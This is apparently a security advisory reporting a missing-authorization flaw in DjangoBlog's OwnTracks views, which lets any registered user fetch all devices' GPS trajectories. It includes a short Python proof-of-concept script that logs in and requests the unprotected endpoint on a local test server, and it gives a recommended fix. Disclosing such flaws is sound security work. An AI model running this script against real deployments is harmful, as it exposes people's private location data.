

# Vuln-10: OwnTracks Improper Access Control

**Project:** DjangoBlog (https://github.com/liangliangyy/DjangoBlog)
**Version:** Latest master (commit `06f76ea`)
**Date:** 2026-03-14
**Severity:** MEDIUM
**OWASP:** A01:2021 - Broken Access Control
**CWE:** CWE-862 - Missing Authorization

---

## Affected File

```
owntracks/views.py (lines 61-69, 97-127)
```

## Root Cause

The `show_log_dates` and `get_datas` views only check `@login_required` but do not verify superuser status. Any registered user can access all GPS tracking data. In contrast, `show_maps` correctly enforces `is_superuser`.

## Steps to Reproduce

```python
python3 -c "
import requests
from datetime import date
s = requests.Session()
s.get('http://127.0.0.1:18000/login/')
csrf = s.cookies.get('csrftoken', '')
s.post('http://127.0.0.1:18000/login/', data={
    'username': 'testuser', 'password': 'testuser123',
    'csrfmiddlewaretoken': csrf
}, headers={'Referer': 'http://127.0.0.1:18000/login/'})

# Regular user accesses GPS data (should be restricted)
resp = s.get(f'http://127.0.0.1:18000/owntracks/get_datas?date={date.today()}')
print(f'get_datas status: {resp.status_code}')  # 200 — should be 403

# Compare: show_maps correctly restricts non-superuser
resp2 = s.get('http://127.0.0.1:18000/owntracks/show_maps')
print(f'show_maps status: {resp2.status_code}')  # 403 — correct
"
```


## Impact

Any registered user can retrieve precise GPS trajectories of all tracked devices.

## Recommended Fix

Add superuser verification to `show_log_dates` and `get_datas`, consistent with `show_maps`.

---

## References

- [OWASP Top 10 (2021)](https://owasp.org/Top10/)
- [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)
- [Django Security Best Practices](https://docs.djangoproject.com/en/stable/topics/security/)
- DjangoBlog source: https://github.com/liangliangyy/DjangoBlog
